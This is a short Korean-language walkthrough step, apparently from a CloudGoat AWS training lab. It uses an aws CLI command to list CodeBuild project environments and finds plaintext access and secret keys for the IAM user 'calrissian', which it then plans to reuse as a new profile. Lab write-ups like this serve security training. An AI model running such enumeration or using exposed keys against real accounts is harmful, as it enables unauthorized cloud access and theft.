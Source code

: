 
```python
aws codebuild batch-get-projects --names cg-codebuild-codebuild_secrets_cgidq5cx1pvldn --query "projects[*].environment" --profile solo
```

![Untitled](./3.png)

- CodeBuild Projects 세부 정보를 열거하는 동안 CodeBuild Project의 환경 변수에 IAM 사용자를 보면 `calrissian` 이라는 명칭을 확인할 수 있습니다.
- IAM Security Credential이 있음을 확인할 수 있고 해당 Credential 을 볼려면 이를 사용하는 Profile을 다시 생성하고 확인을 해야 합니다.

### IAM User: calrissian Profile 등록 및 권한 열거

```python
"environmentVariables": [
            {
                "name": "calrissian-aws-access-key",
                "value": "AKIA2MALBVI56TKO4VUB",
                "type": "PLAINTEXT"
            },
            {
                "name": "calrissian-aws-secret-key",
                "value": "WFxne/U4OouOXcvgeBeiE69VaRWm6wQeBCf4IcXI",
                "type": "PLAINTEXT"
            }
        ],
```
